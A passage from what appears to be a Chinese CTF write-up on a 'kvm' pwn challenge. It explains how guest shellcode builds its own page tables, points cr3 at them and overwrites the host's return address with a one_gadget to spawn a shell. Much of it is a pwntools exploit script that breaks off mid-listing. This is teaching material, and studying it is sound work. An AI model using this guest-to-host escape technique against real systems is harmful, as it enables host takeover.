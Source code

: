根据这四段来获取到物理地址所以我们的shellcode就需要确保经过转换后的地址对应着的是返回地址

具体的做法就是更改cr0的值，自己构造4级页表，促使[0x1000]这样访问到的内存就是0x1000地址处的内存，用我手画的图表示就是这样的，图中上半部分的0x7ff0是解释上面的分成4段，下面是把0x1000转换成物理地址进行访问的过程，其中每个最后都有的0x3代表队是读写的意思：

![](picture/2.png)

所以我们的shellcode就需要确保经过转换后的地址对应着的是返回地址，然后把返回地址改成oengadget就可以拿到shell了

exp最开始设置访问的地址是0x1028，然后一直循环访问到对应地址存储的内容不是0的地方，经过动调发现在retun的返回地址前只有3个地址是有内容的，再往前看都是0，所以循环结束后访问的地址就是return的返回地址-3，所以要修改retuen的地址就需要+3，然后把这个地址里面的内容修改成one_gadget就可以拿到shell了

exp（不同环境需要动调修改一下，因为不同libc的onegadget偏移不一样）：

```
# -*- coding: utf-8 -*-
# @Author: resery
# @Date:   2020-09-12 13:42:58
# @Last Modified by:   resery
# @Last Modified time: 2020-09-12 20:03:25
from pwn import *
from LibcSearcher import LibcSearcher
from struct import pack, unpack
from sys import argv

#context.log_level="debug"
context.arch = 'amd64'

if sys.argv[1]=="debug":
	sh = process("./kvm")
elif sys.argv[1]=="remote":
	sh = remote("node3.buuoj.cn",)

elf = ELF("./kvm")

ru = lambda x:sh.recvuntil(x)
rv = lambda x:sh.recv(x)
ra = lambda x:sh.recvall(x)
sl = lambda x:sh.sendline(x)
sd = lambda x:sh.send(x) 
sla = lambda x,y:sh.sendlineafter(x,y)
lg = lambda x:log.success(x)

def dbg():
	gdb.attach(sh)

payload = asm(
    """
    mov qword ptr [0x1000], 0x2003
    mov qword ptr [0x2000], 0x3003
    mov qword ptr [0x3000], 0x0003
    mov qword ptr [0x0], 0x3
    mov qword ptr [0x8], 0x7003

    mov rax, 0x1000
    mov cr3, rax

    mov rcx, 0x1028
look_for_ra:
    add rcx, 8
    cmp qword ptr [rcx], 0
    je look_for_ra

    add rcx, 24
overwrite_ra:
    mov rax, qword ptr [rcx]
```
